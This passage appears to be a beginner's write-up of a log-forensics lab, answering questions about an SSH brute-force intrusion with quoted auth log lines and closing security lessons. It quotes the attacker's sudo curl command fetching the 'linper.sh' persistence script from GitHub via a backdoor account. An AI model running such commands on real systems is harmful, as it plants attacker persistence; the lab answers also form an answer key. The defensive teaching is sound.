 ### 📤 Step 7: When Did the First Session End?
**Question**: When did the attacker's first SSH session end?

**Answer**: `2024-03-06 06:37:24`

**What to Look For**:
```
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

**Beginner Explanation**:
- `session closed` = The login session ended
- Session 37 was removed from the system
- The attacker logged out of their first session

---

### 📥 Step 8: Using the Backdoor Account
**Question**: What command did the attacker run using their new privileged account?

**Answer**: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

**What to Look For**:
```
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

**Beginner Explanation**:
- The attacker logged back in using their backdoor account "cyberjunkie"
- `sudo` = Command to run something with administrator privileges
- `curl` = Command to download files from the internet
- They downloaded a script called "linper.sh" (likely a malicious tool)

---

## 🎓 Key Learning Points

### 🔍 What This Investigation Teaches Us:

1. **Log Analysis is Detective Work**: Every action leaves traces in system logs
2. **Brute Force Attacks Leave Obvious Patterns**: Multiple failed attempts from the same IP
3. **Attackers Create Persistence**: They make backdoor accounts to maintain access
4. **Privilege Escalation**: Getting the most powerful account possible (root)
5. **Covering Their Tracks**: Using their own accounts instead of the original compromised one

### 🛡️ Security Lessons:

1. **Monitor Your Logs**: Regular log analysis can catch attacks early
2. **Strong Password Policies**: Prevent brute force success
3. **Account Monitoring**: Watch for new user accounts being created
4. **Principle of Least Privilege**: Not everyone needs root access
5. **Network Monitoring**: Suspicious downloads should trigger alerts

---